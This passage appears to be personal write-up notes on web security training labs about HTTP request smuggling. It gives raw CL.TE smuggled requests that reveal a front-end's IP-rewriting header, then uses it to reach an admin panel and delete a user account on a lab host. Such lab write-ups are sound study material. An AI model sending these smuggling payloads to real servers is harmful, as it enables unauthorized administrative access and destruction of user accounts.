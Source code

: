 Send the home GET request and you have the same error about the local users, so let's use the "Host: localhost".
The request is the same, but with that header added and the content length modified to 71.

Now you see the admin panel, modify the request to delete Carlos account!

---
### Exploiting HTTP request smuggling to reveal front-end request rewriting

we send our first test request and responds with a timed out. So it's CL.TE

We send this request: 
```text
POST / HTTP/1.1
Host: 0a2b000704bd63a88121662200fe0024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

And it says unauthorized. Only available if requested from 127.0.0.1

OK, this one it's tricky. You'll need to get a response, so you can tell which header is adding. To do so, you will use this request:
```text
POST / HTTP/1.1
Host: 0a2b000704bd63a88121662200fe0024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

So you are telling it to use a 200 content-lenght, and there is where our response text will appear.
After sending a GET request, you'll see:
![[Pasted image 20240519201124.png]]
And that is your header: X-uCcQPp-Ip
Let's use it now on our previous request, and you can access the admin panel. Now, you only need to delete Carlos account!

---